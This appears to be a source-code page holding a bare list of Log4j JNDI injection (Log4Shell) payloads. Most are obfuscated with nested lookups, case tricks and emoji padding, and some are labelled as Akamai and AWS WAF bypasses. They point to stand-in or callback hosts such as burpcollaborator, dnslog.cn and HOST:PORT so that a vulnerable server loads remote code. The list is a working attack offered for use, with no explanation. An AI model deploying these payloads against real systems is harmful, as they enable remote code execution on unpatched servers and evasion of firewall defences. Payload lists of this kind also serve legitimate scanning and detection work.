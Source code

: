 ```json
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://l}

${${::-j}ndi:rmi://}

${${lower:jndi}:${lower:rmi}://}

${${lower:${lower:jndi}}:${lower:rmi}://

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}:}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}

${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}

${jndi:rmi://adsasd.asdasd.asdasd}

${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}

${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}

${j${upper:n:-}di:ldap://example.com:1389

${j${k8s:k5:-ND}i${sd:k5:-:}ldap://kjhkjhkjh}

${j${main:\k5:-Nd}i${spring:k5:-:}ldap://kjhkjhkjh}

${j${sys:k5:-nD}${lower:i${web:k5:-:}}ldap://kjhkjhkjh}

${j${::-nD}i${::-:}ldap://kjhkjhkjh}

${j${EnV:K5:-nD}i:ldap://kjhkjhkjh}

${j${loWer:Nd}i${uPper::}ldap}

${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:l}dap${env:NaN:-:}//your.burpcollaborator.net/a}

${${upper:}jndi:ldap://example.com/a}

${j${upper::-n}di:ldap://example.com:1389/a}

${"£$_"£🅰️d:-${lower:j}n}di:

${🅰️d:-${lower:}j}ndi:

${🅰️d:-${lower:j}n}di:

#Akamai Bypass Log4j
${jndi${123%25ff:-}:ldap://HOST:PORT/a}

#Amazon AWS WAf Bypass
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://HOST:PORT/a}

${jnd${123%25ff:-${123%25ff:-i:}}ldap://HOST:PORT/a}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//dnslog.cn/a}
${jndi:ldap://127.0.0.1:1389/ badClassName}
```
